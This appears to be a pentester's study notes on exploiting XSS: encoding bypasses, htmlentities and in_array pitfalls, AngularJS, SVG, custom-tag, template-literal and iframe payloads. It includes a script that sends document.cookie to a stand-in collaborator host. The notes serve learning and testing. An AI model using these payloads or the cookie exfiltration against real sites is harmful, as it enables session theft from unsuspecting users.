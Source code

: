 exploitation 


- if the payload is inserted in a href    you can use `javascript:payload`
- if you found xss try to find failure to invalidate session on logout
- 

##### encoding and escaping 
###### scenario 1 
in this scenario the single quote is escaped every `'` has `\` that is escaping it and 
trying to escape the back slash didn't work what if we brake the validation on `'` by encoding the characters HTML encoding so we where able of bypassing the validation why ?????
- because that the server didn't decode the user input before it passes to the client browser 
```javascript
<a id="author" href="https://google.com" onclick="var tracker={track(){}};tracker.track('https://google.com');">joe</a>
```
so trying to brake the `'` and try to inject payload in the track function  
by using  `http://goo&apos;-alert(1)-&apos;`
so the returned value from the server will be like that 
```html 
<a id="author" href="[http://goo&apos;-alert(1)-&apos;](http://goo'-alert\(1\)-'/)" onclick="var tracker={track(){}};tracker.track('http://goo&apos;-alert(1)-&apos;');">youssef</a>
```
but stoop here for a sec shouldn't the browser deals with the encoded value as a string (encoded it and use it as a string ) why this payload works then ??/
- the answer is the data is decoded inside a java script function (code) that's why the payload works 


###### scenarion2 
##### htmlentities
```html
<a href='/profile/<?php echo htmlentities($user); ?>'></a>
```
the htmlentities doesn't encode  single quote  so the user may add ' and add event handler 

```php
<?php

// Check if the user has submitted the form

if ($_SERVER["REQUEST_METHOD"] === "POST") {

    // Get the user input from the form

    $user = $_POST['username'] ;

}

?>

  

<!DOCTYPE html>

<html lang="en">

<head>

    <meta charset="UTF-8">

    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <title>Profile Page</title>

</head>

<body>

  

<h1>Enter Your Username</h1>

  

<!-- Form to capture the username -->

<form method="POST" action="">

    <label for="username">Username:</label>

    <input type="text" id="username" name="username" required>

    <input type="submit" value="Submit">

</form>

  

<h2>Profile Link</h2>

<!-- Output the username directly in the href link -->

    <a href='/profile/<?php echo htmlentities($user); ?>'>ss</a>

  

</body>

</html>
```

![[Pasted image 20250107194809.png]]
![[Pasted image 20250107194828.png]]

##### in_array
```php
$parts = explode('.', $GET['jwt']);
$algorithms = array('HS256', 'HS384', 'HS512');
if (3 !== count($parts)) {
  throw new \InvalidArgumentException('Invalid or malformed JWT supplied.');
}
$header = jsondecode(self::decode($parts[0]), true);
if (in_array($header['alg'], $algorithms)) {
  ...
}
```
in_array if the attacker sent the algorithm part = 0 then the  check will return valid cuz the comparison is now between INT & string so it will be always true  

**metigate**
in_array(_search, array, type_) the type must be set to <span style="color:rgb(0, 176, 80)">TRUE</span>  to make the search be on type and the content   be === not == 

##### always check the libraries used in the website and search for exploitation in it 
for example for angular JS  if the input field isn't filtered u may use `{{this.constructor.constructor('alert("hack3d")')() }}`

##### Custom Tags

1. **Custom HTML Tags**: Unlike standard HTML tags (e.g., `<script>`, `<h1>`), custom tags are user-defined and typically include a hyphen (e.g., `<custom-tag>`). These tags are not blocked by the WAF in this lab, allowing them to be injected into the DOM.
    
2. **Injecting Custom Tags**: By injecting a custom tag (e.g., `<custom-tag>`), the attacker can add attributes like `onmouseover` or `onfocus` to execute JavaScript when specific events occur.
##### SVG payloads 
```javascript
<svg><animatetransform onbegin=alert(1)>
```
- The `onbegin` event is triggered when an animation begins.
    
- By adding `onbegin=alert(1)` to the `<animatetransform>` element, you're telling the browser to execute the `alert(1)` JavaScript function as soon as the animation starts.


##### Making the Payload Auto-Execute

To make the XSS payload execute automatically without user interaction (e.g., hovering or clicking), the attacker uses the following techniques:

1. **`onfocus` Event**: Instead of `onmouseover`, the attacker uses the `onfocus` event, which triggers when the element gains focus.
    
2. **`id` Attribute**: The custom tag is given an `id` (e.g., `id="x"`) so it can be targeted directly from the URL using a hashtag (e.g., `#x`).
    
3. **`tabindex` Attribute**: To make the custom tag focusable, the attacker adds the `tabindex` attribute (e.g., `tabindex="1"`). This allows the element to be focused automatically when the page loads.
    
4. **URL Crafting**: The final malicious URL includes the `#x` fragment, which causes the browser to focus on the custom tag with `id="x"` as soon as the page loads, triggering the `onfocus` event and executing the JavaScript payload (e.g., `alert(document.cookie)`).




##### Reflected XSS into a Template Literal 
Reflected Cross-Site Scripting (XSS) occurs when user input is directly embedded into a web page without proper sanitization, allowing attackers to inject malicious scripts. When the vulnerable input is included within a **template literal** (JavaScript's backtick-delimited strings with `${}` placeholders), the embedded expressions are evaluated as JavaScript code. If an attacker injects a payload like `${alert(1)}`, the `alert` function (or any other malicious code) will execute because template literals dynamically evaluate expressions. This vulnerability arises when user input is unsafely embedded into template literals, enabling arbitrary JavaScript execution. To prevent this, sanitize user input, avoid embedding untrusted data in template literals, and use output encoding or Content Security Policies (CSP) to mitigate risks.

##### sending the cookies to self host 
```java script
<script> 
fetch('https://BURP-COLLABORATOR-SUBDOMAIN',
{ method: 'POST', mode: 'no-cors', body:document.cookie }); 
</script>
```
##### notes 
- what if you want to to make the severity of you xss  high and not demand user interaction but only a few tags are allowed like `onresize` so we need auto resize script so if we found that the page allows me to use it in `iframes` so we can use code like that 1. `<iframe src="https://vulnerablePage?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`
- even if the element isn't visible in the web site it still be vulnerable to XSS for ex  the website takes the URL and put it in `a` tag in the `head` so it's not visible so we can use that payload `https://victim.com?'accesskey='x'onclick='alert(1)` so when the user press ALT +X the payload will execute  '
-  